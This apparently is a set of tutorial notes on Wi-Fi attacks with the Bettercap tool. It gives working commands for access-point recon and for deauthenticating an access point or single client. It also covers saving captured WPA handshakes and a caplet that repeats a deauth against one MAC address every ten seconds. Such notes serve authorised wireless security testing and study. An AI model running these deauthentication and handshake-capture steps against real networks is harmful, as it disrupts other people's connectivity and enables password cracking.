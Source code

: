 Using Tickers- 

```bash
wlan0  » set ticker.commands "clear; wifi.show"

wlan0  » wifi.recon on
...
wlan0  » ticker on

sudo bettercap -iface wlan0 -eval "set ticker.commands 
'clear; wifi.show'; wifi.recon on; ticker on"
```

Showing APs based off of a BSSID:

```bash
wlan0  » wifi.recon c6:2d:56:2a:53:f8

wlan0  » wifi.show
```

Deauth with Bettercap 

```bash
#with the use of a specific MAC address you have multiple options, you can
#deauth the AP, or you can focus on one specific client
wifi.deauth c6:2d:56:2a:53:f8
```

```bash
#Config file for Bettercap can be located and tailored 
wlan1  » wifi.recon off

 wlan1  » get wifi.handshakes.file 

  wifi.handshakes.file: '~/bettercap-wifi-handshakes.pcap'

 wlan0  » set wifi.handshakes.file "/home/kali/handshakes/"

 wlan0  » set wifi.handshakes.aggregate false

 wlan0  » wifi.recon on

 wlan0  » wifi.deauth c6:2d:56:2a:53:f8


#if there is a device that you wish not to deauth you can specify prior to attack
wlan0  » set wifi.deauth.skip ac:22:0b:28:fd:22

wlan0  » wifi.deauth c6:2d:56:2a:53:f8
```

Caplets

```bash
cat -n deauth_corp.cap 
 1  set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}
 2
 3  set ticker.period 10
 4  set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8
 5
 6  events.ignore wifi.ap.new
 7  events.ignore wifi.client.probe
 8  events.ignore wifi.client.new
 9
10  wifi.recon on
11  ticker on
12  events.clear
13  clear
```